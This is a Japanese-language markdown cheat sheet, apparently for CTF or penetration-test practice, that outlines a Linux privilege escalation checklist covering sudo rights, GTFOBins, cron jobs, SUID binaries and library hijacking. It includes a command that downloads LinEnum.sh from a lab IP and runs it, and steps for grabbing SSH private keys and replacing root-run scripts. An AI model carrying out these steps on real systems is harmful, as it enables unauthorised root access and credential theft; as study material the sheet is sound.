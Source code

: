 # Linux Privilege Escalation Flow

## 実行フロー
1. sudo -l の実行
2. LinEnum の実行
3. ホームディレクトリの確認
4. Cron の確認
5. SUID / SGID の確認
6. Bash のバージョン確認
7. Sudo のバージョン確認


## 1. sudo -l の実行
### root 権限で実行可能なコマンドが存在する場合
[GTFOBins](https://gtfobins.github.io/) で検索

### ユーザー環境から継承された環境変数が存在する場合
- LD_PRELOAD が存在する場合は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#ld_preload-%E3%81%8C%E5%AD%98%E5%9C%A8%E3%81%99%E3%82%8B%E5%A0%B4%E5%90%88)  
- LD_LIBRARY_PATH が存在する場合は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#ld_library_path-%E3%81%8C%E5%AD%98%E5%9C%A8%E3%81%99%E3%82%8B%E5%A0%B4%E5%90%88)

## 2. LinEnum の実行
```
wget http://10.4.49.251/LinEnum.sh -O /tmp/LinEnum.sh; chmod +x /tmp/LinEnum.sh
cd /tmp && ./LinEnum.sh
```

## 3. ホームディレクトリの確認
- [ ] 他のユーザーは存在するか
- [ ] ディレクトリにアクセスできるか
- [ ] SSH 秘密鍵は取得できるか
- [ ] 手がかりとなるファイルは存在するか
- [ ] フラグとなるファイルは存在するか

## 4. Cron の確認
- [ ] Crontab に怪しいファイルは存在するか
<!-- - [ ] スクリプトは置き換え可能か（ディレクトリに書き込み権限はあるか） -->
<!-- - [ ] スクリプトは書き換え可能か（ファイルに書き込み権限はあるか） -->

存在する場合...
### 4-1. 指定方法がスクリプト名（絶対パスでない）の場合
環境変数 PATHの追加は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#%E7%92%B0%E5%A2%83%E5%A4%89%E6%95%B0-path)

### 4-2. 指定方法が絶対パスの場合
#### スクリプトの置き換え / 書き換え
・ディレクトリに書き込み権限がある場合  
→スクリプトを置き換える

・ファイルに書き込み権限がある場合  
→スクリプトを書き換える

#### スクリプトで実行されているプログラム（コマンド）の確認
```
strings [FILE]
```

・指定方法がコマンド名（絶対パスでない）の場合
環境変数 PATHの追加は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#%E7%92%B0%E5%A2%83%E5%A4%89%E6%95%B0-path)

・指定方法が絶対パスの場合
[こちら]()

#### 読み込まれている共有ライブラリの確認
```
ldd [FILE]
strace [FILE] 2>&1 | grep -iE "open|access|no such file"
```

## 5. SUID / SGID の確認
- [ ] 既存の脆弱性（Exim <= 4.84-3 など）は存在するか
- [ ] スクリプトのディレクトリは置き換え可能か
- [ ] スクリプトは書き換え可能か
- [ ] 内部で実行されているプログラム（コマンド）はコマンド名で指定されている（絶対パスでない）か

・ディレクトリ、ファイルに書き込み権限がある場合  
共有オブジェクトの利用は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#%E5%85%B1%E6%9C%89%E3%82%AA%E3%83%96%E3%82%B8%E3%82%A7%E3%82%AF%E3%83%88%E3%81%AE%E5%88%A9%E7%94%A8)

・内部で実行されているプログラム（コマンド）がコマンド名で指定されている場合
環境変数の利用は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#%E7%92%B0%E5%A2%83%E5%A4%89%E6%95%B0)

## 6. Bash のバージョン確認
こちらを参照

## 7. Sudo のバージョン確認
こちらを参照



